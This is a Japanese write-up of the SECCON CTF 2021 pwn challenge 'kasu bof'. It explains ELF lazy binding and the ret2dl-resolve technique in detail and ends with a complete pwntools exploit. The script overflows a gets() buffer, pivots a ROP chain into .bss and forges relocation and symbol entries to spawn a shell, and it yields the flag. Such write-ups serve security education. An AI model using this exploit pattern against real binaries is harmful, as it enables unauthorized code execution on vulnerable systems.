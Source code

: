 # SECCON CTF 2021 `kasu bof [pwn]` writeup
お初にお目にかかります。
Caffeineと申します☕

SECCON CTF 2021にチームWaniHackaseとして参加させていただきました。

## 問題

![kasu bof](problem.png)

実行ファイルとそのソースコードが配布されている。

```c
#include <stdio.h>

int main(void) {
  char buf[0x80];
  gets(buf);
  return 0;
}
```

## 解法
最初に取り掛かったのはチームメイトのsaruさん。
何はともあれｹﾞtsィ機構のチェックから
```
[*] '/home/saru/autopwn/db/2021/12_seccon/kasu_bof/chall'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Loading gadgets for 
```
canaryがないことからBoFだろうとのこと。
PIEも無効なので実行ファイルのアドレスは最初から分かっている。
gets関数のリターンアドレスを書き換えてROPに持ち込むことができそう。

以降の指針は問題文内で示されている。を見ればret2dl resolve attackを使えばいいとのことらしい。が、勉強したことがない。
私よりpwn歴の長いチームメンバーも初対面の問題だった様子。
過去のwriteupや解説記事をチームで共有しながら理解を深めて地道に取り組んでいくことに。

### ret2dl resolve attackとは
ret2dl resolve attackはELFの遅延リンクの仕組みを利用して、共有ライブラリ内の関数を呼び出す攻撃手法。
遅延リンクとは、Partial RELROにおいて関数が最初に呼び出された時に外部アドレスをGOTにキャッシュする方式である。
遅延リンクはPLTによって実現される。
配布されたプログラムを例にPLTのはたらきを解説する。

![kasu bof](plt.png)

まず、初回の関数呼び出しの例を見ていこう。
main関数内でgets関数が呼ばれる。
呼び出し先は.pltセクション内のgets関数がエントリされているアドレスである (①)。
.pltセクション内のgets関数は、.got.pltセクションのgets関数がエントリされているアドレスを呼び出す (②)。
.got.pltセクション内のgets関数は呼び出し元となる.pltセクション内の機械語の次のアドレスを指す (③)。
.pltセクション内に戻ると、スタックに0x0をpushしたのちに (後述).pltセクションの先頭のアドレスにjmpする (④)。
.pltセクションの先頭のアドレスでは、0x804c004にあるアドレスをpushした後に0x804c008にあるアドレスを参照してjmpする(⑤)。
0x804c004と0x804c008は.got.pltセクション内のアドレスであり、実行時にはそれぞれ.bssセクションの後ろのアドレス、dl_runtime_resolve関数のアドレスが入る。
dl_runtime_resolve関数は.bssセクションの後ろのアドレスと.pltセクションでスタックにpushした0x0を引数に取ってアドレス解決を行う。
アドレス解決が行われると、GOTのgets関数のエントリがlibc上のgets関数のアドレスに書き換えられる。
その後、得られたlibc上のgets関数のアドレスにjmpする。

続いて2回目以降の関数呼び出しの例を確認する。
.pltセクション内のgets関数がエントリされているアドレスを呼び出し先に、main関数内でgets関数が呼ばれる (①)。
.pltセクション内のgets関数は、GOTのgets関数のエントリを参照する (②)。
gets関数の初回実行時にlibc上のアドレスがキャッシュされているはずなので、アドレス解決の過程を経ずにgets関数のアドレスにjmpする (③)。

![kasu bof](dl_runtime_resolve.png)

関数の初回実行時にdl_runtime_resolve関数で行われるアドレス解決の流れを図示する。
dl_runtime_resolve関数や後述のリンクテーブルの実装はアーキテクチャによって実装が異なるが、今回は32ビットアーキテクチャを例に解説する。
dl_runtime_resolve関数は、.rel.pltセクションの先頭アドレスから第2引数 (例においては0x0)だけオフセットしたアドレスを参照する (①)。
.rel.pltはリロケーションテーブルと呼ばれ、各要素はr_offsetとr_infoの2つのメンバからなる構造体である。
r_offsetは当該関数のGOTのアドレスを示す。
r_infoは上位8ビットに.dynsymセクションにおける当該関数のインデックスを、下位8ビットには再配置の種類を保持する。
r_infoの上位8ビットを基に、.dynsymセクションの対応するインデックスの要素を見る (②)。
.dynsymはシンボルテーブルと呼ばれ、各要素はst_name、st_value、st_size、st_info、st_other、st_shndxの6つのメンバを持つ構造体として実装される。
各メンバのうち、動的リンクに深く関わるのはst_nameである。
dl_runtime_resolve関数は.dynstrセクションの先頭からst_nameだけオフセットした位置にある文字列を参照する (③)。
参照された文字列を基に名前解決を行い (④)、得られたlibc上のアドレスをr_offsetが示すGOTのアドレスに上書きする (⑤)。

![kasu bof](ret2dl_resolve_attack.png)

ret2dl resolve attackでは、下図のような挙動を狙う。
一見すると.dynstrの当該文字列を書き換えるだけだが、実際には.dynstrセクションに書き込み権限はない。
そこで、dl_runtime_resolve関数の第2引数のオフセットをを調整して自作した偽のリンク機構を動作させることを狙ってみる。
リンクを作成するために用意したテーブルのアドレスを知っておく必要があるが、固定アドレスへの書き込みが可能であればret2dl resolve attackが達成できる

### Exploit
まず固定アドレスへの書き込みを実現するために.bssセクションを狙ったROP stagerを行う。
.bssセクションにデータを書き込んでstack pivotした後、.pltセクションの先頭のアドレスにjmpする。
前述の通り第2引数のオフセットを調節してdl_runtime_resolve関数を呼べば、自作した動的リンクを経てsystem関数が呼び出せる。

気を付けなくてはならないのは、dl_runtime_resolve関数が各種健全性テストを行っていること。
具体的には
+ .rel.pltを構成する構造体のメンバr_infoの下位8ビットが0x7であること。
  + 遅延リンクによる起動であることを示す。
+ .dynsymを構成する構造体のメンバst_infoが0x12であること。
  + シンボルがグローバル関数であることを示す
+ .dynsymの構造体が.dynsymセクションの先頭アドレスから0x10バイトの整数倍進んだアドレスに配置されていること。
  + .dynsymを構成する構造体のサイズが0x10バイトであるため。
を確認している。

以上を踏まえてexploit codeを作成する。

```py
import pwn
import sys

buf_size = 132

# 必要なアドレスのリーク
addr_dynsym_start = 0x804820c
addr_dynstr_start = 0x804825c
addr_relplt_start = 0x80482d8
addr_plt_start = 0x8049030
addr_plt_gets = 0x8049040
addr_got_gets = 0x804c00c
addr_bss = 0x804c01c

# ROP gadget
addr_pop_ebx = 0x08049022    # pop ebx ; ret ;
addr_pop_ebp = 0x080491ae    # pop ebp ; ret ;  
addr_leave_ret = 0x080490e5  # leave  ; ret ;

# pivot先のアドレス
stack_size = 0x800
addr_base_stage = addr_bss + stack_size
reloc_offset = (addr_base_stage + 20) - addr_relplt_start
addr_sym = addr_base_stage + 28
align_dynsym = 0x10 - ((addr_sym - addr_dynsym_start) & 0xF)
addr_sym += align_dynsym
index_dynsym = (addr_sym - addr_dynsym_start) // 0x10
r_info = (index_dynsym << 8) | 0x7
addr_arg = addr_base_stage + 80
st_name = (addr_sym + 16) - addr_dynstr_start

# 文字列の準備
system = b"system\x00"
binsh = b'/bin/sh <&2 >&2\x00'

io = pwn.remote("hiyoko.quals.seccon.jp", 9001)
# io = pwn.process("./chall")

# ROP stager
s = b"A" * buf_size
s += b"AAAA" 
s += pwn.p32(addr_plt_gets)
s += pwn.p32(addr_pop_ebx)
s += pwn.p32(addr_base_stage)
s += pwn.p32(addr_pop_ebp)
s += pwn.p32(addr_base_stage)
s += pwn.p32(addr_leave_ret)
s += b"\n"

io.send(s)

# ret2dl resolve attack
s = b"AAAA"
s += pwn.p32(addr_plt_start)
s += pwn.p32(reloc_offset)
s += b"AAAA"
s += pwn.p32(addr_arg)
s += pwn.p32(addr_got_gets)
s += pwn.p32(r_info)
s += b'A' * align_dynsym
s += pwn.p32(st_name)
s += pwn.p32(0)
s += pwn.p32(0)
s += pwn.p32(0x12)
s += system
print(len(s))
s += b'A' * (80-len(s))
s += binsh
s += b'A' * (100-len(s))
s += b"\n"

io.send(s)

io.interactive()
```

FLAG: `SECCON{jUst_4_s1mpL3_b0f_ch4ll3ng3}`

## 参考記事
+ ももいろテクノロジー，"ROP stager + Return-to-dl-resolveによるASLR+DEP回避" https://inaz2.hatenablog.com/entry/2014/07/15/023406
+ sounakano，"ret2dl resolve - SlideShare" https://www.slideshare.net/sounakano/ret2dl-resolve
+ "CTF Pwn - A painter and a black cat" https://raintrees.net/projects/a-painter-and-a-black-cat/wiki/CTF_Pwn